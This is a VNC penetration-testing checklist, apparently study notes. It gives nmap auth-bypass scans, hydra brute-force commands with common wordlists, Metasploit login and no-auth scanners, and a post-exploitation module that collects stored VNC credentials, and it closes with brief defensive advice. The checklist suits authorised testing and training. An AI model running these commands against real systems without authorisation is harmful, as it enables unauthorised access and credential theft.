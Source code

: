 # ✅ VNC Pentesting Checklist & Commands

---

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating VNC (port 5900), I realistically expect to find:

- [ ] Service banner with version info (for exploit mapping)
- [ ] No-authentication allowed (misconfiguration)
- [ ] Weak or default passwords that allow login
- [ ] Ability to brute-force and discover valid passwords
- [ ] Unencrypted sessions that can leak sensitive info
- [ ] Credentials to reuse on other services
- [ ] Post-exploitation: dump saved VNC credentials from compromised hosts

---

## ✅ VNC Pentest Checklist

- [ ] **Banner Grabbing / Version Detection**
    ```bash
    nmap -sV -p 5900 <IP>
    ```

- [ ] **Check for No-Authentication Allowed**
    - Some VNC servers permit connections with no password.
    - Test with:
      ```bash
      vncviewer <IP>:<PORT>
      ```

- [ ] **Check for Easy / Default Passwords**
    - Attempt connecting with common passwords manually.
    - Examples: `password`, `admin`, `1234`.

- [ ] **Brute-Force VNC Password**
    ```bash
    hydra -s 5900 -P /usr/share/seclists/Passwords/darkweb2017-top10.txt -t 30 <IP> vnc
    hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -s <PORT> <IP> vnc -u -vV
    ```

- [ ] **Check for Exploits for VNC Version**
    ```bash
    searchsploit vnc
    ```

- [ ] **Post-Exploitation**
    - Grab stored credentials from compromised hosts.
    - Use recovered passwords to reconnect using VNC clients.

---

## ✅ VNC Useful Commands

- **Nmap Scanning**
    ```bash
    nmap -sV -Pn -p 5900 --script=vnc-info,vnc-title,realvnc-auth-bypass <IP> -oA 5900_nmap_VNC
    nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p 5900,5800 <IP>
    ```

- **Metasploit Modules**
    - **Login Scanner**
        ```bash
        use auxiliary/scanner/vnc/vnc_login
        set rhosts <IP>
        run
        ```
    - **No-Auth Scanner**
        ```bash
        use auxiliary/scanner/vnc/vnc_none_auth
        set rhosts <IP>
        run
        ```
    - **Post-Exploitation Credential Gather**
        ```bash
        background
        use post/windows/gather/credentials/vnc
        set session <SESSION_ID>
        run
        ```

- **Brute-Force Examples**
    ```bash
    hydra -s 5900 -P /usr/share/wordlists/rockyou.txt <IP> vnc
    ```

- **Connecting with vncviewer**
    ```bash
    vncviewer [-passwd passwd.txt] <IP>::5901
    vncviewer <IP>:<PORT>
    ```

---

## ✅ Defensive Recommendations

- Enforce strong passwords for all VNC accounts.
- Disable unauthenticated access.
- Restrict access to trusted IP addresses only.
- Tunnel VNC over SSH or VPN to prevent interception.
- Regularly update and patch VNC software.
